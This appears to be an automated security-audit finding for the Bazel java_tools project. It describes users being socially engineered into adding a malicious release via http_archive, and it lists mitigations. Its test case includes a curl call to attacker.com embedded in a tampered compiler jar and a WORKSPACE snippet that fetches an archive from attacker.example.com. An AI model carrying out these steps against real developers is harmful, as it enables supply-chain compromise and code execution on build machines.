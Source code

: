 Based on the provided vulnerability description and the inclusion/exclusion criteria, the "Social Engineering for Malicious `java_tools` Release" vulnerability is a valid vulnerability that should be included in the updated list. It is part of an attack vector, and it does not fall under any of the exclusion criteria.

Therefore, the updated list containing the vulnerability in markdown format is as follows:

### Vulnerability List:

- Vulnerability Name: Social Engineering for Malicious `java_tools` Release
- Description:
    - An attacker can create a malicious `java_tools` release by modifying the official release artifacts or creating entirely new, compromised tools.
    - The attacker hosts this malicious release on a publicly accessible server.
    - The attacker then socially engineers a Bazel user into including an `http_archive` definition in their Bazel project's `WORKSPACE` file. This `http_archive` definition is crafted to download the malicious `java_tools` release from the attacker's server instead of the legitimate release from the official repository.
    - The Bazel user, unaware of the malicious nature of the URL, adds this definition to their `WORKSPACE` file.
    - When the user builds a Java project using Bazel, Bazel will download and use the compromised `java_tools` from the attacker's server.
    - The malicious tools within the compromised release are then executed during the Java build process.
- Impact:
    - Arbitrary code execution on the Bazel user's machine or build environment.
    - Potential compromise of the built software artifacts, leading to supply chain attacks if the compromised artifacts are distributed.
    - Data exfiltration from the build environment.
    - Denial of service or disruption of the build process.
- Vulnerability Rank: High
- Currently Implemented Mitigations:
    - None explicitly implemented within the `java_tools` project itself to prevent social engineering attacks.
    - The documentation implicitly relies on user awareness to use only trusted releases from the official repository (`https://github.com/bazelbuild/java_tools/releases`).
- Missing Mitigations:
    - **Stronger emphasis in documentation:**  The documentation should prominently warn users about the risks of using `java_tools` releases from untrusted sources and explicitly guide them to always use releases from the official repository. It should also detail how to verify the integrity of downloaded releases (e.g., by checking SHA256 checksums against official sources).
    - **Code signing of release artifacts:** Digitally signing the `java_tools` release artifacts would allow Bazel users to cryptographically verify the authenticity and integrity of the downloaded releases before use. This would prevent the use of modified or attacker-created releases if Bazel or external tools were configured to check these signatures.
    - **Supply chain security hardening:** Implementing more robust supply chain security measures for the release process itself. This includes securing the Buildkite pipelines, GCP storage, and GitHub release process to prevent unauthorized modifications or injections of malicious code during the release generation and distribution.
- Preconditions:
    - An attacker must be able to create and host a malicious `java_tools` release.
    - The attacker must successfully socially engineer a Bazel user to use the malicious release URL in their `WORKSPACE` file. This could involve tricking the user into believing the malicious release is legitimate, necessary for a specific purpose, or comes from a trusted source.
- Source Code Analysis:
    - The provided source code files are primarily documentation and a release script. There is no specific code within these files that directly introduces this vulnerability.
    - The vulnerability stems from the design of Bazel's `http_archive` mechanism, which allows users to download and use external dependencies from arbitrary URLs. This mechanism is inherently vulnerable to social engineering if users are not careful about the URLs they use.
    - The file `/code/README.md` itself provides instructions on how to use `http_archive` to specify `java_tools` releases, inadvertently highlighting the attack vector if these instructions are misused with malicious URLs.
    - The release process documentation (`/code/docs/release-automated.md`, `/code/docs/release.md`, `/code/docs/behind-the-release.md`) focuses on the steps to create and publish official releases. It does not include specific security measures to prevent the described social engineering attack, as it assumes users will use the official releases.
    - The script `/code/scripts/release.py` is a utility script for generating release notes and downloading artifacts. It does not introduce or mitigate the vulnerability.
- Security Test Case:
    1. **Setup Malicious Release:** An attacker creates a modified `java_tools` release. For example, they could modify the `java_compiler.jar` within a legitimate release zip to include code that executes `curl attacker.com/pwned` upon compilation. The attacker then calculates the SHA256 hash of this modified zip file.
    2. **Host Malicious Release:** The attacker hosts this modified `java_tools` release on a web server they control, for example, at `http://attacker.example.com/malicious_java_tools.zip`.
    3. **Craft Social Engineering Attack:** The attacker sends an email or message to a target Bazel user, perhaps claiming there is a critical bug fix in a "new" `java_tools` release available at `http://attacker.example.com/malicious_java_tools.zip`. They provide the SHA256 hash of their malicious zip file and instruct the user to update their `WORKSPACE` file to use this "new release".
    4. **Victim Configuration:** The Bazel user, believing the attacker, modifies their project's `WORKSPACE` file to include the following `http_archive` definition:
        ```python
        http_archive(
            name = "remote_java_tools_malicious",
            urls = ["http://attacker.example.com/malicious_java_tools.zip"],
            sha256 = "<SHA256 hash of malicious_java_tools.zip provided by attacker>"
        )

        java_toolchain(
            name = "malicious_java_toolchain",
            java_runtime = "@remote_java_runtime//:jdk",
            javac = "@remote_java_tools_malicious//:java_compiler",
            ... # other toolchain configurations pointing to malicious tools
        )

        toolchain(
            name = "java_toolchain_alias",
            toolchain = ":malicious_java_toolchain",
            toolchain_type = "@bazel_tools//tools/jdk:toolchain_type",
        )
        ```
    5. **Trigger Build:** The Bazel user runs a Java build command within their project, for example: `bazel build //path/to/java/target`.
    6. **Malicious Code Execution:** During the build, Bazel downloads the `malicious_java_tools.zip` from `attacker.example.com` and uses the compromised `java_compiler` from it. The malicious code embedded in `java_compiler.jar` executes, and a request is sent to `attacker.com/pwned`, demonstrating successful code execution due to the socially engineered malicious `java_tools` release.